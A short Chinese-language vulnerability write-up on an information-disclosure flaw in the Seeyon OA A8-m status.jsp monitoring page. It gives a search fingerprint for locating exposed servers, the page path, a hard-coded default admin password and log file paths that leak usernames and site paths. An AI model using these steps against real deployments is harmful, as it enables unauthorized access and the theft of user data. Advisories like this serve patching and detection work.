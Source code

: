 # 致远OA A8 status.jsp 信息泄露漏洞

# 致远OA A8 status.jsp 信息泄露漏洞

## 漏洞描述

致远OA A8-m 存在状态监控页面信息泄露，攻击者可以从其中获取网站路径和用户名等敏感信息进一步攻击

## 漏洞影响

```
致远OA A8-m
```

## 网络测绘

```
title="A8-m"
```

## 漏洞复现

访问监控页面

```
/seeyon/management/status.jsp
```

![image-20220520153340922](/images/202205201533962.png)

后台密码为 WLCCYBD@SEEYON

登录后通过如下url获得一些敏感信息

```
/seeyon/management/status.jsp
/seeyon/logs/login.log
/seeyon/logs/v3x.log
```

![image-20220520153355298](/images/202205201533377.png)

![image-20220520153408356](/images/202205201534420.png)

![image-20220520153422315](/images/202205201534381.png)

